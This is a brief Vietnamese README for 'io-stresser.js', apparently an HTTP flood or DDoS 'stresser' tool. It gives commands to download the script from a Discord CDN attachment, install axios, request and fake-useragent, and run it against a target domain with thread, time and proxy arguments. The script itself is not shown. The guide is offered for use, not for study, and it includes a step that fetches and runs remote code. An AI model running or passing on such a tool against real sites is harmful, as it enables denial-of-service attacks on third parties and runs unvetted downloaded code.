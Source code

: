 # io-stresser.js

mỗi trường thực hiện
=======
[Google Shell](https://shell.cloud.google.com/)

cài đặt
=======
```
wget https://cdn.discordapp.com/attachments/912663711297183744/918331196008710254/io-stresser.js
&& npm install axios
&& npm install request
&& npm install fake-useragent
&& node io-stresser.js
```
cách sử dụng
=======
```
node io-stresser.js https://domain.com 10000 5 proxy
```

